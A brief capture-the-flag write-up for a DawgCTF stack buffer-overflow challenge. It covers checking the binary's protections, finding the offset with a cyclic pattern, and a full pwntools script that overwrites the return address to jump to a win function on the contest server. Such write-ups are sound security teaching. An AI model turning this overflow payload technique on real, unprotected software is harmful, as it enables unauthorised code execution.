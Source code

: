# bof on the top

this one was just a classic bufferovflow 

we will start by examining the binary 
`checksec ./bof`

![checksec](https://github.com/pop-eax/DawgCTF/raw/master/pwn/bof%20to%20the%20top/image.png)

nothing unique no protection no ASLR

so I just got a cyclic pattern and located the overflow
done :D

exploit code 
```
from pwn import *

p = remote("ctf.umbccd.io", 4000)
#p = process("./bof")

win = p32(0x08049182)

payload = ("A"*62).encode() + win + p32(0xdeadbeef) + p32(1200) + p32(366)

input("attach gdb")
p.recvuntil("name?")
p.sendline(payload)
p.recvuntil("singing?")
p.sendline()

data = p.recvline()
print(data.decode())
data = p.recvline()
print(data.decode())
p.interactive()
```
